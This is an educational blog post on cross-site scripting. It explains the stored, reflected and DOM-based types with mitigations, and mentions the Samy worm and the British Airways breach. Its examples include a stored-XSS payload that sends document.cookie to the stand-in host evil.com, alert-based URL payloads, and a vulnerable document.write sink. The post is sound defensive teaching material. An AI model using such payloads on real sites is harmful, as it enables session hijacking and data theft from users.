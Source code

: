 ```yaml
---

title: "Cross-Site Scripting (XSS): OWASP Top 10 \& Real-World Exploitation"

date: 2025-07-24

layout: post

tag: \[OWASP, Web Security, XSS]

---
```




\## Table of Contents

\- \[What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting)

\- \[Types of XSS](#types-of-xss)

&nbsp; - \[1. Stored XSS](#1-stored-xss)

&nbsp; - \[2. Reflected XSS](#2-reflected-xss)

&nbsp; - \[3. DOM-Based XSS](#3-dom-based-xss)

\- \[How XSS Attacks Work](#how-xss-attacks-work)

\- \[Real-World Examples](#real-world-examples)

\- \[General Mitigation Strategies](#general-mitigation-strategies)

\- \[Conclusion](#conclusion)

\- \[References](#references)



\## What is Cross-Site Scripting?



Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the \[OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.



---



\## Types of XSS



\### 1. Stored XSS

Definition:

Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.



How it works:

1\. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.

2\. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.

3\. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.



Example payload:

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>



Mitigation:

Sanitize and validate all user inputs before storing them; use context-aware output encoding (HTML, JavaScript, URL encoding); avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).



---



\### 2. Reflected XSS

Definition:

Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.



How it works:

1\. Attacker crafts a malicious link containing JavaScript code in a parameter.

2\. Victim clicks the link and sends a request to the vulnerable application.

3\. The application reflects the malicious input in its response, which the browser executes.



Example payload in URL:

https://example.com/search?q=<script>alert('XSS')</script>



Mitigation:

Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.



---



\### 3. DOM-Based XSS

Definition:

DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.



How it works:

1\. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

2\. The vulnerable JavaScript code inserts this data directly into the page without escaping.

3\. The browser executes the malicious code.



Example vulnerable code:

document.write(location.hash);



Example attack URL:

https://example.com/page#<script>alert('XSS')</script>



Mitigation:

Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.



---



\## How XSS Attacks Work

1\. Injection: The attacker injects malicious JavaScript into a vulnerable page.

2\. Execution: The victim’s browser renders the page and runs the script.

3\. Impact: The attacker can steal session cookies, perform actions as the user, or spread malware.



---



\## Real-World Examples

\- MySpace Samy Worm (2005): A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

\- British Airways Breach (2018): Malicious JavaScript was injected to steal payment details from thousands of customers.



---



\## General Mitigation Strategies

Validate and sanitize all user inputs on both client and server; use context-specific output encoding; enforce a strong Content Security Policy (CSP); avoid unsafe JavaScript functions and DOM manipulation methods; use security features provided by frameworks; regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.



---



\## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.



---



\## References

\- OWASP: Cross-Site Scripting (XSS) - https://owasp.org/www-community/attacks/xss/

\- PortSwigger: XSS Cheat Sheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

\- Google CSP Evaluator - https://csp-evaluator.withgoogle.com/



